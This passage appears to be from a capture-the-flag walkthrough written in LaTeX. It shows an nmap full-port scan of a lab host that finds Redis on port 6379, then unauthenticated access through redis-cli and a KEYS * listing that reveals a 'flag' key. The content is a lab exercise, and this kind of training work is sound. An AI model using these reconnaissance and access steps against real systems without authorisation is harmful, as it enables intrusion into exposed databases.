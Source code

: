 \documentclass[conference]{IEEEtran}
\begin{document}
We wait for four consecutive packets that have been successfully transmitted to hit CTRL+C.
\\
Now we scan all the ports using nmap:
\begin{scriptsize}
\begin{verbatim}
root@ghost:~# nmap -p- 10.129.223.3
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 13:51 CDT
Nmap scan report for 10.129.223.3
Host is up (0.043s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 24.97 seconds
\end{verbatim}
\end{scriptsize}

When using nmap, we can specify nmap to scan ALL ports using "-p-" this will ensure we do not miss a port. As by default, nmap only scans the top 1000 ports.

\begin{verbatim}
PORT     STATE SERVICE
6379/tcp open  redis
\end{verbatim}

Okay, now that we have found port 6379, and see that redis is being run a service on that port, we can do some googling to see what we can find.

After some googling, we find that redis is a type of NoSQl database, which can be accessed via the command-line using "redis-cli".

\begin{scriptsize}
\begin{verbatim}
root@ghost:~# redis-cli -h 10.129.223.3 -p 6379
10.129.223.3:6379>
\end{verbatim}
\end{scriptsize}

We can access the database using the "-h" argument (which is looking for a host / IP Address) and the "-p" argument (which is specifying the Port of the host).

We are then offered a shell, where we can execute commands. After some more googling, we find that redis is a in-memory key-value database. Which essentially means, if we find the keys, we can access the associated values. Using the following command, we are given ALL keys in that database.

\begin{scriptsize}
\begin{verbatim}
10.129.223.3:6379> KEYS *
1) "flag"
2) "numb"
3) "temp"
4) "stor"
\end{verbatim}
\end{scriptsize}
\end{document}
